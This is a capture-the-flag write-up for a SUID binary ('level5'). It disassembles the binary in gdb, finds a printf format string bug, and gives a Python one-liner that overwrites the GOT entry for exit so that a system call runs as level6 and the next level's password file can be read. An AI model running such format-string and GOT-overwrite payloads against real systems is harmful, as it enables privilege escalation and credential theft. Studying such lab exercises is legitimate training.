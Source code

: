 # Level 5

## First clue
- once logged in as level5 we find again an executable with the same behavior of ./level4, `level5` owned by `level6` and the SUID (SET USER ID) bit set(indicated by the s in place of the execute permission for the owner (rws)) that means that when anyone execute the file it will run with the privileges of level5, not the person executing it
- we try to execute it without arguments and we get the prompt back
- if we write something, that something is copied back as output

## Inspect with gdb
- The binary contains printf, fgets, system, external functions used for input/output operations and executing commands, indicating potential interaction with the user and system.
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb)


```
- there are three main functions, `main`, `o` and `n`
- first we inspect main
## Main
```
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    

```
- main is simple, makes a stack alignment and call function `n`, as in level4
## Function n

```
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>

```
- allocates 0x218 = 536 bytes
- reads input from user using fgets, storing input in buffer at 0x208(%ebp)
- it calls printf function (that is at address 0x8048380) with as argument the user input retrieved with fget and stored in 0x208 
- it exits wihout returning
## Function o
```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt> 
End of assembler dump.

```
- prepares the stack frame
- allocates 24 bytes (0x18 in hexa)
- the movl $0x80485f0, (%esp) instruction prepares an argument to be passed to the system function. It's placing the address 0x80485f0 onto the stack, which will serve as the argument to the system function call.
- The call 0x80483b0 <system@plt> instruction then calls the system function, passing the address 0x80485f0 as its argument. This means that the system function will execute the command specified at the memory address 0x80485f0.

## Vulnerability
- in function n the user input is not properly sanitized before being passed to the printf function, so we still have a control string vulnerability, but unlike in level4 we don't have a return and the system call is in function o, that is not called anywhere. So we can construct a controlled string that allows us to replace the address of exit in the GOT with the address of "o", so that when function n exit, "o" is called instead.


## Finding the address of exit in GOT (Global Offset Table), that is writeable
- ` objdump -R level5`
```
level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main


```
- we got th address: 08049838

## Finding at what position the exit functin address passed as argument to printf will be stored in the stack: 


`python -c 'print "aaaa" + " %x" * 10' | ./level5`
- we got: `aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078` => exit will be at 4th position

## Finding the address of function o
```
(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```
- the addreess of o function that we want the exit point to allowing us to execute the shell command is 0x080484a4

## Building the exploit: 

`python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n""' | ./level5`

- \x38\x98\x04\x08 represents the address of the exit function in little-endian format.
- %134513824d specifies a large number of characters to print before %n is executed. 134513824 is the decimal representation of the little-endian address 0x080484a4, which is the address of the "o" function
- %4$n tells printf to write the count of characters printed so far to the memory address specified by the fourth argument, that is the exit function address
- so  we're effectively overwriting the address of exit in the Global Offset Table (GOT) with the address of the o function


## Triggering System Call
Once executed the exploit 134513824 chr are printed and then we can cat the /level6/.pass containing the flag
